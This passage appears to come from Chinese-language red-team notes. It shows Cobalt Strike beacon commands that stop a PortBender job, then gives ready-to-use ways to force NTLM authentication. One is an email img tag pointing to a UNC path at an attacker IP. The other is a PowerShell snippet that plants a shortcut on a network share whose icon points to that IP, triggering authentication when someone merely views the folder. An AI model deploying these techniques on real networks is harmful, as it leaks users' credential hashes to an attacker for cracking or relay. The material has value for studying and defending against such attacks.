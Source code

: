  JID  PID   Description
 ---  ---   -----------
 0    1240  PortBender

beacon> jobkill 0
beacon> kill 1240
```

## 触发NTML身份验证的其他方法

1. 发送邮件时的图片链接
```
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```

2. windows快捷方式

一个Windows快捷方式可以有多个属性，包括目标、工作目录和一个图标。 创建一个图标属性指向UNC路径的快捷方式，当它在资源管理器中被查看时，将触发NTLM认证尝试（甚至不需要点击）。

创建快捷方式的最简单方法是使用PowerShell
```
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("\\dc-2\software\test.lnk")
$shortcut.IconLocation = "\\10.10.17.231\test.ico"
$shortcut.Save()
```